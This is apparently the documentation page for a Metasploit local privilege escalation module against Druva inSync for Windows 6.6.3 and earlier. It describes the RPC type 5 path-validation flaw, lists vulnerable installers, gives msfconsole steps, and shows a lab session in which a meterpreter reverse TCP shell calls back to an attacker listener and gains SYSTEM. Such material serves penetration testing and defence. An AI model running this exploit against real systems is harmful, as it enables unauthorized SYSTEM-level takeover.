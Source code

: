 ## Vulnerable Application

Druva inSync client for Windows exposes a network service on TCP
port 6064 on the local network interface. inSync versions 6.6.3
and prior do not properly validate user-supplied program paths
in RPC type 5 messages, allowing execution of arbitrary commands
as SYSTEM.

This module has been tested successfully on inSync versions
6.5.2r99097 and 6.6.3r102156 on Windows 7 SP1 (x64).

Download:

* https://downloads.druva.com/downloads/inSync/Windows/6.5.2/inSync6.5.2r99097.msi
* https://downloads.druva.com/downloads/inSync/Windows/6.6.3/inSync6.6.3r102156.msi


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

  ### WritableDir

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Druva inSync6.6.3r102156 on Windows 7 SP1 (x64)

```
msf > use exploit/windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > set session 1
session => 1
msf exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > run

[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Service 'inSyncCPHService' exists.
[*] Connecting to 127.0.0.1:6064 ...
[*] Sending packet (258 bytes) to 127.0.0.1:6064 ...
[*] Sending stage (175174 bytes) to 172.16.191.171
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.171:49520) at 2020-12-10 07:03:04 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

